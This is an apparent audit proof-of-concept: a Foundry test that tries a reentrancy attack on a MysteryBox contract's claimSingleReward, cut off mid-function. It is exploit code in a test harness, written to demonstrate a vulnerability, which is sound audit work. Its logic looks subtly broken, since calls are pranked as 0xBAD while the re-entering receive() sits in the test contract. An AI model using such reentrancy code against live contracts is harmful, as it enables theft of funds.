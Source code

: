 * Copy this code to a new test file:  `MysteryBox/test/ReentrancyExploit2.sol`

```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "forge-std/Test.sol";
import "forge-std/console.sol";
import "../src/MysteryBox.sol";

contract ReentrancyExploit2 is Test {
    MysteryBox public mysteryBox;
    address public attacker = address(0xBAD);

    // Fallback function to trigger reentrancy
    receive() external payable {
        if (address(mysteryBox).balance >= 0.1 ether) {
            console.log("Re-entering claimSingleReward");
            mysteryBox.claimSingleReward(0); // Attempt reentrancy
        }
    }

    function setUp() public {
        // Deploy the MysteryBox contract with initial funding
        mysteryBox = new MysteryBox{value: 3 ether}();
        vm.deal(attacker, 1 ether);
        console.log("MysteryBox contract deployed and attacker funded");
    }

    function testExploit() public {
        vm.startPrank(attacker);

        // Buy some boxes
        mysteryBox.buyBox{value: 0.1 ether}();
        mysteryBox.buyBox{value: 0.1 ether}();
        mysteryBox.buyBox{value: 0.1 ether}();
        console.log("Attacker bought 3 boxes");

        // Open boxes to get rewards
        mysteryBox.openBox();
        mysteryBox.openBox();
        mysteryBox.openBox();
        console.log("Attacker opened 3 boxes");

        // Check rewards
        MysteryBox.Reward[] memory rewards = mysteryBox.getRewards();
        require(rewards.length > 0, "No rewards found");
        console.log("Attacker received %d rewards", rewards.length);

        // Log initial balance
        uint256 initialBalance = address(attacker).balance;
        console.log("Initial Balance of Attacker: %d", initialBalance);

        // Trigger the exploit by claiming a single reward
        try mysteryBox.claimSingleReward(0) {
            console.log("claimSingleReward executed successfully");
        } catch (bytes memory reason) {
            console.log("claimSingleReward failed with reason:");
            console.logBytes(reason);
        }

        // Log the final balance after exploit
        uint256 finalBalance = address(attacker).balance;
        console.log("Final Balance of Attacker: %d", finalBalance);
```
